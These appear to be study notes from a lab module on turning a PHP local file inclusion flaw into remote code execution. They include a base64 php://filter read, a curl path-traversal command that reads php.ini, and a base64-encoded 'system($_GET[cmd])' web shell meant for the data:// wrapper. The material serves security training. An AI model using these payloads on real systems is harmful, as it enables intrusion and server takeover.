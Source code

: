 ```
php://filter/read=convert.base64-encode/resource=config
```

### Recon about the filters permissible

Data

The [data](https://www.php.net/manual/en/wrappers.data.php) wrapper can be used to include external data, including PHP code(RCEEEEE). However, the data wrapper is only available to use if the (`allow_url_include`) setting is enabled in the PHP configurations. So, let's first confirm whether this setting is enabled, by reading the PHP configuration file through the LFI vulnerability.

### Checking the PHP config file

To do so, we can include the PHP configuration file found at (`/etc/php/X.Y/apache2/php.ini`) for Apache or at (`/etc/php/X.Y/fpm/php.ini`) for Nginx, where `X.Y` is your install PHP version. We can start with the latest PHP version, and try earlier versions if we couldn't locate the configuration file. We will also use the `base64` filter we used in the previous section, as `.ini` files are similar to `.php` files and should be encoded to avoid breaking. Finally, we'll use cURL or Burp instead of a browser, as the output string could be very long and we should be able to properly capture it:

PHP Wrappers

```bash
CSmarwen@htb[/htb]$ curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"<!DOCTYPE html>

<html lang="en">
...SNIP...
 <h2>Containers</h2>
    W1BIUF0KCjs7Ozs7Ozs7O
    ...SNIP...
    4KO2ZmaS5wcmVsb2FkPQo=
<p class="read-more">
```

# RCE ( data Wrapper )

With `allow_url_include` enabled, we can proceed with our `data` wrapper attack. As mentioned earlier, the `data` wrapper can be used to include external data, including PHP code. We can also pass it `base64` encoded strings with `text/plain;base64`, and it has the ability to decode them and execute the PHP code.

So, our first step would be to base64 encode a basic PHP web shell, as follows:

PHP Wrappers

```bash
CSmarwen@htb[/htb]$ echo '<?php system($_GET["cmd"]); ?>' | base64
```

Now, we can URL encode the base64 string, and then pass it to the data wrapper with `data://text/plain;base64,`. Finally, we can use pass commands to the web shell with `&cmd=<COMMAND>`:

# RCE ( input Wrapper )

